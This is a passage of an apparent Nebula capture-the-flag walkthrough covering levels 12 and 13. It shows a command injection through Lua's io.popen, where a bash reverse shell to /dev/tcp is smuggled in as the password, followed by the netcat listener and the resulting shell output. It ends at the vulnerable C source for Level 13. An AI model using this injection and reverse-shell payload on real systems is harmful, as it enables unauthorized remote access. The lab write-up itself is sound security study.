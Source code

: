 ```lua
      local h = hash(line)

      if h ~= "4754a4f4bd5787accd33de887b9250a0691dd198" then
          client:send("Better luck next time\n");
      else
          client:send("Congrats, your token is 413**CARRIER LOST**\n")
      end

  end

  client:close()
end
```

With `io.popen` we can invoke arbitrary command using several techniques. We
use command substitution and two screens to gain reverse shell using bash:

```
Window1:
sh-4.2$ nc -l 1337

Window2:
sh-4.2$ nc 0 50001
Password: $(bash -i >& /dev/tcp/0.0.0.0/1337 0>&1)

Window1:
bash: no job control in this shell
flag12@nebula:/$ id
id
uid=987(flag12) gid=987(flag12) groups=987(flag12)

flag12@nebula:/$ getflag
getflag
You have successfully executed getflag on a target account
```

# Level13
The vulnerable program checks if the user does match the specific user id. 

```c
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <sys/types.h>
#include <string.h>

#define FAKEUID 1000

int main(int argc, char **argv, char **envp)
{
  int c;
  char token[256];

  if(getuid() != FAKEUID) {
      printf("Security failure detected. UID %d started us, we expect %d\n", getuid(), FAKEUID);
      printf("The system administrators will be notified of this violation\n");
      exit(EXIT_FAILURE);
  }

  // snip, sorry :)

  printf("your token is %s\n", token);
  
}
```
